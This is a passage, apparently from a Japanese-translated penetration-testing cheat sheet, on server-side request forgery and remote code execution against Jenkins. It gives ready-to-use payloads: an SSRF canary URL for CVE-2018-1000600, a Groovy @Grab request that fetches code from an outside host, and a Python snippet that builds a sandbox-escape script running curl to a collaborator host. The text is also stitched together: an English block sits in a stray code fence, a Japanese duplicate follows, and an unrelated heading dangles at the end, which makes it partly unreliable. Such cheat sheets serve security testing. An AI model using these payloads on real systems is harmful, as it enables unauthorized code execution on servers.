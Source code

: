 **SSRF カナリア: CVE-2018-1000600**
```bash
/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://SSRF_CANARY/%23&login=orange&password=tsai
```
**RCE**

RCE（リモートコード実行）を達成するために、以下の手順に従ってください：[Jenkinsのハッキングパート2 - 認証なしのRCEのためのメタプログラミングの悪用](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
```bash
/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)%0a@GrabResolver(name='orange.tw', root='http://SSRF_CANARY/')%0a@Grab(group='tw.orange', module='poc', version='1')%0aimport Orange;
```
**Groovyを介したRCE（リモートコード実行）**

```html
## Description
This vulnerability allows an attacker to execute arbitrary code on the server by exploiting a Server-Side Request Forgery (SSRF) vulnerability in a web application that uses Groovy.

## Exploitation
1. Identify the SSRF vulnerability in the target web application.
2. Craft a malicious request that includes a Groovy script payload.
3. Send the malicious request to the server.
4. The server, due to the SSRF vulnerability, will execute the Groovy script payload.
5. The attacker can now execute arbitrary code on the server.

## Mitigation
To mitigate this vulnerability, follow these steps:
1. Implement proper input validation and sanitization to prevent SSRF vulnerabilities.
2. Use a whitelist approach to validate and restrict the allowed URLs for outgoing requests.
3. Avoid passing user-controlled input directly to the Groovy interpreter.
4. Regularly update and patch the Groovy interpreter to ensure the latest security fixes are applied.
```

## 説明
この脆弱性により、Groovyを使用しているWebアプリケーションのServer-Side Request Forgery（SSRF）脆弱性を悪用することで、攻撃者はサーバー上で任意のコードを実行することができます。

## 悪用方法
1. ターゲットのWebアプリケーションでSSRF脆弱性を特定します。
2. Groovyスクリプトのペイロードを含む悪意のあるリクエストを作成します。
3. 悪意のあるリクエストをサーバーに送信します。
4. SSRF脆弱性により、サーバーはGroovyスクリプトのペイロードを実行します。
5. 攻撃者は今やサーバー上で任意のコードを実行できます。

## 緩和策
この脆弱性を緩和するためには、以下の手順に従ってください：
1. SSRF脆弱性を防ぐために、適切な入力検証とサニタイズを実装します。
2. 出力リクエストの許可されたURLを検証および制限するためにホワイトリストアプローチを使用します。
3. ユーザーが制御可能な入力を直接Groovyインタプリタに渡さないようにします。
4. 最新のセキュリティ修正が適用されるように、定期的にGroovyインタプリタを更新およびパッチします。
```
cmd = 'curl burp_collab'
pay = 'public class x {public x(){"%s".execute()}}' % cmd
data = 'http://jenkins.internal/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=' + urllib.quote(pay)
```
# Hystrix ダッシュボード

